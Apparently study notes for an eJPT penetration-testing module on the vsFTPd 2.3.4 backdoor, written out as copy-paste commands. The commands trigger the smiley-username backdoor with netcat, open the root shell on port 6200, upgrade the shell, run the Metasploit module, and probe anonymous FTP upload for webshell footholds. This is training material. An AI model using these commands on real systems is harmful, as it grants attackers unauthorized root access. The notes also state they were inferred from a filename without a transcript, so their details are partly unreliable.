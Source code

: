 # 06 - Targeting vsFTPd (eJPT Linux Exploitation)

Note: No transcript was provided; content inferred conservatively from the filename and typical eJPT workflow for exploiting the vsFTPd 2.3.4 backdoor (CVE-2011-2523) and basic FTP enumeration.

## What the video covers (Introduction / big picture)
- Identifying and targeting FTP services on Linux hosts.
- Recognizing vsFTPd 2.3.4 and safely confirming the infamous backdoor condition.
- Exploiting the backdoor to obtain a root shell (manual and with Metasploit).
- Basic FTP enumeration (anonymous access, write perms) if the backdoor is not present.
- Quick post-exploitation/TTY upgrade after gaining a shell.

## Flow (ordered)
1. Enumerate port 21 with Nmap; fingerprint the FTP service/version.
2. Run the NSE check for the vsFTPd 2.3.4 backdoor.
3. Manually verify/exploit by using a username ending with “:)”.
4. Connect to the spawned backdoor shell on TCP/6200 (if present).
5. Upgrade shell and perform quick system checks.
6. Alternatively, exploit with Metasploit’s vsftpd_234_backdoor module.
7. If not vulnerable: enumerate FTP for anonymous access and write permissions.

## Tools highlighted
- Nmap (service/version detection + NSE scripts)
- Netcat (banner grabbing, manual trigger, shell connection)
- ftp/telnet clients (manual interaction with FTP)
- Metasploit Framework (exploit/unix/ftp/vsftpd_234_backdoor)
- searchsploit (optional reference to known exploit)

## Typical command walkthrough (detailed, copy-paste friendly)
Replace 10.10.10.10 with your target IP.

1) Set target var
```
export IP=10.10.10.10
```

2) Enumerate FTP, detect version, run common scripts
```
nmap -Pn -p21 -sV -sC -T4 $IP
```

3) Check specifically for the vsFTPd 2.3.4 backdoor
```
nmap -p21 --script=ftp-vsftpd-backdoor $IP
```

4) Quick banner grab (optional)
```
nc -nv $IP 21
# If you see "220 (vsFTPd 2.3.4)" be cautious but confirm with the NSE script above.
# QUIT to exit:
# QUIT
```

5) Manual backdoor trigger attempt (smiley in username)
- Using ftp:
```
ftp $IP
# Name (prompt): test:)
# Password: anything
# You will likely get "530 Login incorrect." That’s OK—the trigger may still occur.
quit
```
- Or in one go with netcat:
```
printf "USER test:)\r\nPASS test\r\n" | nc -nv $IP 21
```

6) Connect to the backdoor shell on port 6200
```
nc -nv $IP 6200
# If successful, you should get a shell (often root).
id
uname -a
```

7) Upgrade shell (if needed)
- If Python present:
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
- If Python missing, try:
```
/usr/bin/script -q /dev/null -c /bin/bash
```

8) Metasploit alternative
```
msfconsole -q
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS $IP
set RPORT 21
run
# When you get a shell:
sessions -i 1
id
uname -a
```

9) If not vulnerable: basic FTP enumeration
```
nmap -p21 --script=ftp-anon,ftp-syst $IP
ftp -inv $IP << 'EOF'
user anonymous anonymous@
ls -la
pwd
cd upload
put test.txt
ls -la
bye
EOF
```

## Practical tips
- vsFTPd 2.3.4 in a banner does not guarantee the backdoor; always validate with the NSE script or manual trigger.
- The backdoor typically opens a root shell on TCP port 6200 only after a “USER <anything>:)” attempt. Connect immediately to 6200 with nc.
- If 6200 doesn’t open, the target is either not the backdoored build or a firewall is blocking 6200.
- Use -Pn with Nmap if the host drops ping.
- Prefer manual trigger first; if it fails, try Metasploit to double-check.
- If there is no backdoor, pivot to classic FTP checks: anonymous access, directory listing, and upload (write) permissions. A writable FTP directory can lead to webshells if it maps to a web root.
- Keep post-exploitation minimal and in scope. The backdoor, if present, often yields root; verify with id and proceed carefully.

## Minimal cheat sheet (one-screen flow)
```
export IP=10.10.10.10

# 1) Enum
nmap -Pn -p21 -sV -sC $IP
nmap -p21 --script=ftp-vsftpd-backdoor $IP

# 2) Manual trigger
printf "USER x:)\r\nPASS y\r\n" | nc -nv $IP 21

# 3) Backdoor shell
nc -nv $IP 6200
id; uname -a
python -c 'import pty; pty.spawn("/bin/bash")' || /usr/bin/script -q /dev/null -c /bin/bash

# 4) Metasploit alt
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS $IP; run"

# 5) If not vuln, check anonymous
nmap -p21 --script=ftp-anon,ftp-syst $IP
```

## Summary
- The module targets vsFTPd, focusing on detecting and exploiting the compromised vsFTPd 2.3.4 backdoor that spawns a root shell on TCP/6200 after a username ending in “:)”.
- Use Nmap to fingerprint FTP and run ftp-vsftpd-backdoor. Manually trigger with a smiley username and connect to 6200 via netcat. Alternatively, leverage Metasploit’s vsftpd_234_backdoor module.
- If the host is not backdoored, pivot to standard FTP enumeration (anonymous access, write permissions) for alternative footholds.